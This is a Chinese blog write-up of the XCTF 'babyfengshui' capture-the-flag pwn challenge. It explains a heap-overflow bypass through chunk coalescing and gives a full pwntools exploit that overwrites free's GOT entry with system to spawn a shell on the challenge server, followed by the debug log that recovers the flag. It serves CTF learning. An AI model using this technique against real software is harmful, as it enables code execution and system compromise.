

<!--yml
category: 未分类
date: 2022-04-26 14:18:59
-->

# babyfengshui [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列23_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103722686/](https://blog.csdn.net/fastergohome/article/details/103722686/)

题目地址：[babyfengshui](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4713&page=1)

这个题目是高手进阶区的第12题。本题的主要考点是堆溢出，现在ctf主要的考点都已经转移到了堆溢出了，这个题目作为堆溢出的基础题目，还是很容易入门的。

先看看题目

惯例检查一下保护机制：

```
[*] '/ctf/work/python/babyfengshui/babyfengshui'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了Canary和NX。

下面我把已经改造好的c语言代码贴出来（注释的语句，我已经在注释语句下面用容易理解的方式重写了）：

首先我给程序增加了一个struct定义：

```
struct User
{
  char* szDescription;
  char szName[124]; //0x80-4=128-4=124
};
```

这个题目的操作对象就是内存中的User数组。

1、main函数

```
void __cdecl __noreturn main()
{
  char cReturn; // [esp+3h] [ebp-15h]
  int nChoice; // [esp+4h] [ebp-14h]
  int n; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  alarm(0x14u);
  while ( 1 )
  {
    puts("0: Add a user");
    puts("1: Delete a user");
    puts("2: Display a user");
    puts("3: Update a user description");
    puts("4: Exit");
    printf("Action: ");
    if ( __isoc99_scanf("%d", &nChoice) == -1 )
      break;
    if ( !nChoice )
    {
      printf("size of description: ");
      __isoc99_scanf("%u%c", &n, &cReturn);
      add_user(n);
    }
    if ( nChoice == 1 )
    {
      printf("index: ");
      __isoc99_scanf("%d", &n);
      delete_user(n);
    }
    if ( nChoice == 2 )
    {
      printf("index: ");
      __isoc99_scanf("%d", &n);
      display_user(n);
    }
    if ( nChoice == 3 )
    {
      printf("index: ");
      __isoc99_scanf("%d", &n);
      update_user_description(n);
    }
    if ( nChoice == 4 )
    {
      puts("Bye");
      exit(0);
    }
    if ( (unsigned __int8)g_nIndexNextUser > 0x31u )
    {
      puts("maximum capacity exceeded, bye");
      exit(0);
    }
  }
  exit(1);
}
```

主要是接收菜单选择，然后分配给相应的子函数执行。

2、add_user函数

```
User *__cdecl add_user(size_t nSizeOfDescription)
{
  void *pszUserDescription; // ST24_4
  User *pObjUser; // ST28_4

  pszUserDescription = malloc(nSizeOfDescription);
  memset(pszUserDescription, 0, nSizeOfDescription);
  pObjUser = malloc(0x80u);
  memset(pObjUser, 0, 0x80u);
  *pObjUser = pszUserDescription;
  g_arrUser[(unsigned __int8)g_nIndexNextUser] = pObjUser;
  printf("name: ");
  // fgets_string_before_return((char *)g_arrUser[(unsigned __int8)g_nIndexNextUser] + 4, 124);
  fgets_string_before_return(g_arrUser[(unsigned __int8)g_nIndexNextUser].szName, 124);
  update_user_description(++g_nIndexNextUser - 1);
  return pObjUser;
} 
```

3、delete_user函数

```
unsigned int __cdecl delete_user(unsigned __int8 nIndexUser)
{
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  if ( nIndexUser < (unsigned __int8)g_nIndexNextUser && g_arrUser[nIndexUser] )
  {
    // free(*(void **)g_arrUser[nIndexUser]);
    free(g_arrUser[nIndexUser].szDescription)
    free(g_arrUser[nIndexUser]);
    g_arrUser[nIndexUser] = NULL;
  }
  return __readgsdword(0x14u) ^ v2;
}
```

4、display_user函数

```
unsigned int __cdecl display_user(unsigned __int8 nIndexUser)
{
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  if ( nIndexUser < (unsigned __int8)g_nIndexNextUser && g_arrUser[nIndexUser] )
  {
    // printf("name: %s\n", (char *)g_arrUser[nIndexUser] + 4);
    // printf("description: %s\n", *(_DWORD *)g_arrUser[nIndexUser]);
    printf("name: %s\n", g_arrUser[nIndexUser].szName);
    printf("description: %s\n", g_arrUser[nIndexUser].szDescription);
  }
  return __readgsdword(0x14u) ^ v2;
}
```

5、update_user_description函数

```
unsigned int __cdecl update_user_description(unsigned __int8 nIndexUser)
{
  char cReturn; // [esp+17h] [ebp-11h]
  int nLenTextMax; // [esp+18h] [ebp-10h]
  unsigned int v4; // [esp+1Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  if ( nIndexUser < (unsigned __int8)g_nIndexNextUser && g_arrUser[nIndexUser] )
  {
    nLenTextMax = 0;
    printf("text length: ");
    __isoc99_scanf("%u%c", &nLenTextMax, &cReturn);
    if ( (char *)(nLenTextMax + *(_DWORD *)g_arrUser[nIndexUser]) >= (char *)g_arrUser[nIndexUser] - 4 )
      // (char *)(g_arrUser[nIndexUser]->description+nLenTextMax) > (char *)g_arrUser[nIndexUser] - 4 
      // 指针比较：当前用户的description最后一个字节的地址，要大于当前user的地址-4个字节
    {
      puts("my l33t defenses cannot be fooled, cya!");
      exit(1);
    }
    printf("text: ");
    // fgets_string_before_return(*(char **)g_arrUser[nIndexUser], nLenTextMax + 1);
    fgets_string_before_return(g_arrUser[nIndexUser].szDescription, nLenTextMax + 1);
  }
  return __readgsdword(0x14u) ^ v4;
}
```

注意：下面这句是为了防止堆溢出的

```
if ( (char *)(nLenTextMax + *(_DWORD *)g_arrUser[nIndexUser]) >= (char *)g_arrUser[nIndexUser] - 4 )
```

我已经在下面翻译了这句代码，就是表示我们每次创建时，都会malloc两个堆，按照常规思想的情况，我们会以为它们在物理位置上相邻。这句话就是判断这个情况，但是会有例外发生。

释放的内存块存储在bins里面，当申请时，会先从bins里找空闲的空间，如果找不到，再从TOP块切割一块给用户。并且，释放时，如果两块区域物理相邻，会发生合并，因此两块0x8+0x80的空间合并成了0x8+0x108的空间，当我们申请0x108空间的堆时，正好就分配到这个地方。

注意：0x8是堆头的长度。

根据这个思想我们的步骤如下：

1、增加两个用户（0号和1号），分别分配0x8+0x80、0x8+0x80的堆空间

2、增加一个用户，设置2号用户的description为'/bin/sh\x00'

3、删除0号用户

4、再次增加0号用户，分配0x8+0x108、0x8+0x80的堆空间，其中0x8+0x108会占领原0号用户的两块堆空间，而0x8+0x80所需要的堆空间，就会在2号用户分配的堆空间之后

自然就绕开了上面那个防止堆溢出的检查

5、分配0号用户内存的时候description可以溢出，覆盖设置1号description指向elf.got['free']

6、显示1号description，也就是显示了真实的elf.got['free']

7、通过elf.got['free']查找libc，找出system

8、更新1号description的内容为system地址，也就是将elf.got['free']指向system地址

9、调用删除2号用户，就是调用free(g_arrUser[nIndexUser].szDescription)

free已经改变为system，g_arrUser[2].szDescription设置为'/bin/sh\x00'

所以就是调用system('/bin/sh\x00')

具体实现python代码如下，我已经把中文步骤的说明写在代码的注释里面了：

```
#coding:utf8
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'

p = remote('111.198.29.45', 55991)
elf = ELF('./babyfengshui')

def add_user(size, length, text):
    p.sendlineafter("Action: ", '0')
    p.sendlineafter("description: ", str(size))
    p.sendlineafter("name: ", 'AAAA')
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("text: ", text)

def delete_user(idx):
    p.sendlineafter("Action: ", '1')
    p.sendlineafter("index: ", str(idx))

def display_user(idx):
    p.sendlineafter("Action: ", '2')
    p.sendlineafter("index: ", str(idx))

def update_desc(idx, length, text):
    p.sendlineafter("Action: ", '3')
    p.sendlineafter("index: ", str(idx))
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("text: ", text)

base_mem_len = 0x80
binsh_len = 8
add_user(base_mem_len, base_mem_len, 'AAAA')        # 0
add_user(base_mem_len, base_mem_len, 'AAAA')        # 1
#设置2号用户的description为'/bin/sh\x00'
add_user(binsh_len, binsh_len, '/bin/sh\x00')   # 2
delete_user(0)

heap_head_len = 8
num_0_mem_len = (heap_head_len + base_mem_len + heap_head_len + base_mem_len) - heap_head_len
# 再次分配内存给description的时候可以溢出，覆盖设置1号description指向elf.got['free']
add_user(num_0_mem_len, num_0_mem_len+0x88+8+4, "A"*(0x108+0x88+8) + p32(elf.got['free']))    #0

# 显示1号description，也就是现实了真实的elf.got['free']
display_user(1)
p.recvuntil("description: ")
free_addr = u32(p.recv(4))
log.info("free_addr => %#x", free_addr)

# 通过elf.got['free']查找libc，找出system
from LibcSearcher import *
libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
system_addr = libc_base + libc.dump('system')

log.info("system address: 0x%x" % system_addr)

# 更新1号description的内容为system地址，也就是将elf.got['free']指向system地址
update_desc(1, 0x4, p32(system_addr))
# 调用删除2号用户，就是调用free(g_arrUser[nIndexUser].szDescription)
# free已经改变为system，g_arrUser[2].szDescription设置为'/bin/sh\x00'
# 所以就是调用system('/bin/sh\x00')
delete_user(2)

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/babyfengshui# python babyfengshui.py
[+] Opening connection to 111.198.29.45 on port 55991: Done
[DEBUG] PLT 0x80484e0 printf
[DEBUG] PLT 0x80484f0 free
[DEBUG] PLT 0x8048500 fgets
[DEBUG] PLT 0x8048510 alarm
[DEBUG] PLT 0x8048520 __stack_chk_fail
[DEBUG] PLT 0x8048530 malloc
[DEBUG] PLT 0x8048540 puts
[DEBUG] PLT 0x8048550 exit
[DEBUG] PLT 0x8048560 strchr
[DEBUG] PLT 0x8048570 __libc_start_main
[DEBUG] PLT 0x8048580 setvbuf
[DEBUG] PLT 0x8048590 memset
[DEBUG] PLT 0x80485a0 __isoc99_scanf
[DEBUG] PLT 0x80485b0 __gmon_start__
[*] '/ctf/work/python/babyfengshui/babyfengshui'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[DEBUG] Received 0x5e bytes:
    '0: Add a user\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Received 0x15 bytes:
    'size of description: '
[DEBUG] Sent 0x4 bytes:
    '128\n'
[DEBUG] Received 0x6 bytes:
    'name: '
[DEBUG] Sent 0x5 bytes:
    'AAAA\n'
[DEBUG] Received 0xd bytes:
    'text length: '
[DEBUG] Sent 0x4 bytes:
    '128\n'
[DEBUG] Received 0x6 bytes:
    'text: '
[DEBUG] Sent 0x5 bytes:
    'AAAA\n'
[DEBUG] Received 0xd bytes:
    '0: Add a user'
[DEBUG] Received 0x51 bytes:
    '\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Received 0x15 bytes:
    'size of description: '
[DEBUG] Sent 0x4 bytes:
    '128\n'
[DEBUG] Received 0x6 bytes:
    'name: '
[DEBUG] Sent 0x5 bytes:
    'AAAA\n'
[DEBUG] Received 0xd bytes:
    'text length: '
[DEBUG] Sent 0x4 bytes:
    '128\n'
[DEBUG] Received 0x6 bytes:
    'text: '
[DEBUG] Sent 0x5 bytes:
    'AAAA\n'
[DEBUG] Received 0xd bytes:
    '0: Add a user'
[DEBUG] Received 0x51 bytes:
    '\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Received 0x15 bytes:
    'size of description: '
[DEBUG] Sent 0x2 bytes:
    '8\n'
[DEBUG] Received 0x6 bytes:
    'name: '
[DEBUG] Sent 0x5 bytes:
    'AAAA\n'
[DEBUG] Received 0xd bytes:
    'text length: '
[DEBUG] Sent 0x2 bytes:
    '8\n'
[DEBUG] Received 0x6 bytes:
    'text: '
[DEBUG] Sent 0x9 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000009
[DEBUG] Received 0xd bytes:
    '0: Add a user'
[DEBUG] Received 0x51 bytes:
    '\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x7 bytes:
    'index: '
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Received 0xd bytes:
    '0: Add a user'
[DEBUG] Received 0x51 bytes:
    '\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Received 0x15 bytes:
    'size of description: '
[DEBUG] Sent 0x4 bytes:
    '264\n'
[DEBUG] Received 0x6 bytes:
    'name: '
[DEBUG] Sent 0x5 bytes:
    'AAAA\n'
[DEBUG] Received 0xd bytes:
    'text length: '
[DEBUG] Sent 0x4 bytes:
    '412\n'
[DEBUG] Received 0x6 bytes:
    'text: '
[DEBUG] Sent 0x19d bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000190  41 41 41 41  41 41 41 41  10 b0 04 08  0a           │AAAA│AAAA│····│·│
    0000019d
[DEBUG] Received 0xd bytes:
    '0: Add a user'
[DEBUG] Received 0x51 bytes:
    '\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x7 bytes:
    'index: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x7 bytes:
    'name: \n'
[DEBUG] Received 0x7c bytes:
    00000000  64 65 73 63  72 69 70 74  69 6f 6e 3a  20 50 b7 59  │desc│ript│ion:│ P·Y│
    00000010  f7 20 86 58  f7 20 a0 5d  f7 26 85 04  08 0a 30 3a  │· ·X│· ·]│·&··│··0:│
    00000020  20 41 64 64  20 61 20 75  73 65 72 0a  31 3a 20 44  │ Add│ a u│ser·│1: D│
    00000030  65 6c 65 74  65 20 61 20  75 73 65 72  0a 32 3a 20  │elet│e a │user│·2: │
    00000040  44 69 73 70  6c 61 79 20  61 20 75 73  65 72 0a 33  │Disp│lay │a us│er·3│
    00000050  3a 20 55 70  64 61 74 65  20 61 20 75  73 65 72 20  │: Up│date│ a u│ser │
    00000060  64 65 73 63  72 69 70 74  69 6f 6e 0a  34 3a 20 45  │desc│ript│ion·│4: E│
    00000070  78 69 74 0a  41 63 74 69  6f 6e 3a 20               │xit·│Acti│on: ││
    0000007c
[*] free_addr => 0xf759b750
[+] ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64) be choosed.
[*] system address: 0xf7565940
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x7 bytes:
    'index: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0xd bytes:
    'text length: '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x6 bytes:
    'text: '
[DEBUG] Sent 0x5 bytes:
    00000000  40 59 56 f7  0a                                     │@YV·│·│
    00000005
[DEBUG] Received 0xd bytes:
    '0: Add a user'
[DEBUG] Received 0x51 bytes:
    '\n'
    '1: Delete a user\n'
    '2: Display a user\n'
    '3: Update a user description\n'
    '4: Exit\n'
    'Action: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x7 bytes:
    'index: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{f73c4278f37526dd2873ae73c493c66f}\n'
cyberpeace{f73c4278f37526dd2873ae73c493c66f}
$ 
```

执行成功。本题的知识点主要是堆溢出。